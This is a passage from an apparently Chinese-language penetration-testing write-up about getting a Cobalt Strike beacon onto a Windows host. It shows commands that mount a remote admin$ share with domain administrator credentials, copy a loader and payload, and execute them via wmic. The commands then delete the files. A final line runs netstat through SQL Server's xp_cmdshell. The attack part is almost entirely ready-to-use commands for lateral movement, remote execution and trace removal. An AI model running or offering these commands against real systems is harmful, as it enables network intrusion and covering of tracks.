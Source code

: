 ![image.png](assets/1706232584-85101fc0f1f5eab7b666e08490612197.png)

### 尝试上线 cs

如果目标是站库分离可以这么搞，如果没有直接用蚁剑上传即可

```php
# net use \\10.0.0.7\admin$ /user:"demo\administrator" "blackCeeeK#$%^2368"
# copy loader \\10.0.0.7\admin$\temp
# copy klsr \\10.0.0.7\admin$\temp\
# wmic /node:10.0.0.7 /user:"demo\administrator" /password:"blackCeeeK#$%^2368" PROCESS call create "c:\windows\temp\loader c:\windows\temp\klsr"
# del \\10.0.0.7\admin$\temp\loader /F
# del \\10.0.0.7\admin$\temp\klsr /F
# dir \\10.0.0.7\admin$\temp
# net use \\10.0.0.7\admin$ /del
```

### rdp 利用

`exec master..xp_cmdshell 'netstat -ano'` 查看开放端口  